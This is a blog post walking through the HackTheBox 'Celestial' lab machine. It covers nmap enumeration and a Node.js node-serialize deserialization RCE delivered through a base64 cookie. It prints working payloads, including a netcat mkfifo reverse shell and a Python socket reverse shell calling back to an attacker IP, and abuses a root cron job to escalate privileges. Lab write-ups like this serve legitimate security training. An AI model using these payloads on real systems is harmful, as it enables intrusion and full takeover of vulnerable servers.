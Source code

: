 ```yaml
---
layout: post
title: "HackTheBox - Celestial writeup"
subtitle: "~ Walkthrough of Celestial machine from HackTheBox ~"
date: 2018-09-02
author: V3ded
category: CTF
tags: blog ctf pentesting hackthebox
finished: true
---
```


# Introduction
<img src="/img/blog/htb-celestial/htb-celestial-00.png">

New week means new writeup from [HackTheBox](https://www.hackthebox.eu/)! This week's retired box is *Celestial* and consists of *Node.js* `unserialize()` vulnerability. Long story short - *Celestial* machine doesn't properly handle input which is fed to a *Node.js* `unserialize()` function. This allows the attacker to achieve command execution by passing a Javascript object to the previously mentioned function. Let's get into it!

***

# Scanning & Enumeration

Initial *nmap* scan:
```console
root@EdgeOfNight:~# nmap -sS -T4 -sV -sC 10.10.10.85

Starting Nmap 7.60 ( https://nmap.org ) at 2018-09-02 12:33 BST
Warning: 10.10.10.85 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.10.85
Host is up (0.11s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.85 seconds
```
Nmap detects only 1 *HTTP* port open. Upon viewing the webpage we get a following view:

<img src="/img/blog/htb-celestial/htb-celestial-01.png">

A plain webpage which shows a weird message. Normally I'd continue with directory bruteforce, but for the sake of keeping this blog short I won't because directory bruteforce is not the correct solution and won't yield any results.

Well, there isn't much to follow. Due to lack of leads, I decided to view each HTTP request I make to the server with an intercepting *Burpsuite* proxy.

<img src="/img/blog/htb-celestial/htb-celestial-02.png">

There seems to be a base64 encoded cookie (*profile=xxxx...*) which decodes to:
```console
root@EdgeOfNight:~# echo "eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ==" | base64 -d
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```
> Note: "%3D%3D" is URL encoded equivalent of "==" 

Right, so we have some sort of *JSON* object parsing where 2+2 gets concatenated into 22. From security standpoint it's **ALWAYS** a bad practice to parse user input (in this case "num":"2") as it can be often missused and chained into a serious vulnerability such as an RCE. So, instinctively our best bet is to look for a Node.js parsing / serialization vulnerability. First few google queries return interesting results such as [this](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) or [this](https://blog.websecurify.com/2017/02/hacking-node-serialize.html) and confirm our initial fear (or joy, depends if you are the attacker >:) ). An RCE is possible through passing of a serialized JavaScript Object.  Let's make our payload and get a shell!

***

# Exploitation 

## Local Testing
First, install Node.js and Node.js serialize library with the command below (DEBIAN ONLY!). 
{% highlight bash %}
curl -sL https://deb.nodesource.com/setup_10.x | sudo -E bash -
sudo apt-get install -y nodejs
sudo apt-get install npm
sudo npm install node-serialize
{% endhighlight %}

This allows us to locally debug and test our exploit. 

In order to serialize() a Javascript object I use a script (sript.js) that views kernel information with `uname -a`: 
{% highlight javascript %}
var y = {
rce : function(){
require('child_process').exec('uname -a', function(error, stdout, stderr) { console.log(stdout) });
}(),
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
{% endhighlight %}

<img src="/img/blog/htb-celestial/htb-celestial-03.png">

By using IIFE ([Javascript's immediately invoked function expression](https://en.wikipedia.org/wiki/Immediately-invoked_function_expression)) we can execute this code. IIFE is something like a constructor. By appending `()` after the function's body we can immediately run the function and therefore run the malicious code. With IIFE the previously made *JSON* object would look like this: 

```console
{"rce":"_$$ND_FUNC$$_function(){\n require('child_process').exec('uname -a', function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```
>Note: Notice the () appended at the end of the *JSON* object. That's IIFE and is responsible for running the function.

By unserializing this serialized object we get a command execution.
{% highlight javascript %}
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'uname -a\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
{% endhighlight %}

<img src="/img/blog/htb-celestial/htb-celestial-04.png">

Awesome! All we need to do now is to find a way to get a reverse shell. Simply replace `uname -a` with a [reverse shell one liner](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). I will be using netcat one - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f`. The final payload will look something like this:
{% highlight javascript %}
{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.112 1234 >/tmp/f\', function(error, stdout, stderr) { console.log(stdout) });}()"}
{% endhighlight %}

> Note: Replace 10.10.15.112 with your "connect-back" IP

## Summing it all up 
So far we have 2 *JSON* objects. The original one: 
{% highlight json %}
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
{% endhighlight %}
and the weaponized one:
{% highlight json %}
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.112 1234 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) });}()"}
{% endhighlight %}

Combine them into one single object, base64 & url encode (change "==" into "%3D%3D") the result and replace the original encoded cookie with our new weaponized one. 

Merged *JSON* object:
{% highlight json %}
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2","rce":"_$$ND_FUNC$$_function (){require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.112 1234 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) });}()"}
{% endhighlight %}

Encoded *JSON* object:
<img src="/img/blog/htb-celestial/htb-celestial-05.png">

Replacing of the cookie:
<img src="/img/blog/htb-celestial/htb-celestial-06.png">

Shell:
<img src="/img/blog/htb-celestial/htb-celestial-07.png">

Result is a nice shell! Go and get your deserved user flag!

***

# Privilege escalation
Navigating to `/home/sun/Documents` you can find a writable *script.py* file. 

<img src="/img/blog/htb-celestial/htb-celestial-08.png">

Doing some recon I find out that there's a cron job running this script as root every 5 minutes. We can escalate our privileges by placing a reverse shell into the script (because it's writable) or any other python code. It will be executed with root permissions. 

My reverse shell looks as follows:
{% highlight python %}
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.112",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
{% endhighlight %}
> Note: Don't forget to replace your IP again! 

<img src="/img/blog/htb-celestial/htb-celestial-09.png">

## Rooted! Congratulations! 

***

# Conclusion
Thanks for reading guys! I enjoyed this box mainly because it contained a serialization vulnerability. There are other similar ones to explore - python pickles or php object injections and so on. Beauty is, that these types of exploits require a lot of manual work and can't be downloaded somewhere on the internet. I feel like one learns a lot from such vulnerabilities. Thank you for the box [3ndG4me](https://github.com/3ndG4me)!

~V3
